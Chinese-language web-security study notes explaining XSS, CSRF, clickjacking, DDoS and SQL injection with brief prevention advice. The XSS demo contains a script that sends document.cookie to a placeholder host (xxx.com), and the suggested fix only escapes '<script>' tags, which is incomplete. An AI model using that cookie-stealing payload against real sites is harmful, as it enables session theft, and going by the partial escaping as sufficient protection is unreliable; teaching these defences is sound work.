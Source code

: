 XSS：
      Cross Site Script跨站脚本攻击。
      手段：黑客将JS代码插入到网页内容中，渲染时执行JS代码。
      预防：特殊字符替换（前段或者后端）。

  ```html
  <body>
    <p>XSS Demo</p>
    <div>
      <p>123123</p>
      <script>
        // image可以规避跨域。
        var image = document.createElement('image');
        image.src = 'http://xxx.com/api/xxx?cookie=' + document.cookie;
      </script>
    </div>

    <script>
      const str = `
            <p>123123</p>
            <script>
              var image = document.createElement('image');
              image.src = 'http://xxx.com/api/xxx?cookie=' + document.cookie;
            </script>
     `;

     const newStr = str.replace(/<script>/g, '&lt;script&gt;');

     // Vue可以自动规避XSS，除非使用v-html；
     // React可以自动规避XSS，除非使用dangerouslySetInnerHTML；
    </script>
  </body>
  ```

CSRF：
    Cross Site Request Forgery，跨站请求伪造。
    手段：黑客诱导用户去访问另一个网站的接口，伪造请求。
    预防：严格的跨域限制 + 验证码机制。

    详细过程：
        用户登录了A网站，有了cookie。
        黑客诱导用户到B网站，并发起A网站的请求。
        A网站的API发现有cookie，认为是用户自己操作的。
    
    预防手段：
        严格的跨域请求限制，如判断referrer（请求来源）。
        为cookie设置SameSite，禁止跨域传递cookie。
        关键接口使用短信验证码。

点击劫持：Click Jacking
    手段：诱导界面上蒙一个透明的iframe，诱导用户点击。
    预防：让iframe不能跨域加载。

```js
if(top.location.hostname !== self.location.hostname){
  alert("您正在访问不安全的页面，即将跳转到安全页面！")
  top.location.href = self.location.href;
}
```
Response headers:
X-Frame-Options:sameorigin

DDoS：
    Distribute denial-of-service 分布式拒绝服务。
    手段：分布式的、大规模的流量访问，使服务器瘫痪。
    预防：软件层不好做，需硬件预防（如阿里云WAF）。

SQL注入：
    手段：黑客提交内容时写入SQL语句，破坏数据库。
    预防：处理输入的内容，替换特殊字符。

划重点：
    预防攻击，要各司其职，而不要依赖其他角色（如后端）。